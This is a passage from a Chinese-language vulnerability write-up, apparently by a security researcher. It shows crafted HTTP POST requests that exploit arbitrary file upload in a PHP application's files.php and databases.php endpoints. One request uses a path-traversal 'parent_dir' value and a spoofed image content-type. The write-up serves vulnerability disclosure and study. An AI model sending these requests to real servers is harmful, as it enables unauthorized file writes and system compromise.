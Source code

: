　　构造数据包  
```
POST /service/app/files.php?type=save_file_contents HTTP/1.1
Host: 192.168.222.139:9080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.222.139:9080/C292CA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9c53f8f8c903d9412a3f0211
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
file_path=/&file_name=test2.txt&txt_file_contents=qwerqwer
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1DOKibHZBeWFKczjHFWPoicMZzMO989tgLXWWsCOJicV5E9ZppXURuicH7g/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1a7DZE5qm1G82OVVwARabWl3cOD1mkNIoluaUOlXMFfLicUBFw3rfPtw/640?wx_fmt=png "null")  
  
　　service/app/files.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1CdTCThFU3RA4kd9GAJckherQd9AibBmk5VTtmoMUAGkqVFs6YgRRicFw/640?wx_fmt=png "null")  
  
　　根据通过 post 传入的值 file_path 指定保存文件目录 file_name 指定文件保存名字 txt_file_contents 指定文件保存内容，未作任何过滤，可实现任意文件上传  
### 任意文件上传三  
  
　　构造数据包  
```
POST /service/app/databases.php?type=file_add HTTP/1.1
Host: 192.168.222.139:9080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.222.139:9080/C292CA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9c53f8f8c903d9412a3f0211
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE0tFhmmng2vwxftT
Content-Length: 312

------WebKitFormBoundaryE0tFhmmng2vwxftT
Content-Disposition: form-data; name="parent_dir"

../../../../../../../../
------WebKitFormBoundaryE0tFhmmng2vwxftT
Content-Disposition: form-data; name="file"; filename="testing2.txt"
Content-type: image/jpg

qweqwe------WebKitFormBoundaryE0tFhmmng2vwxftT--
```  
  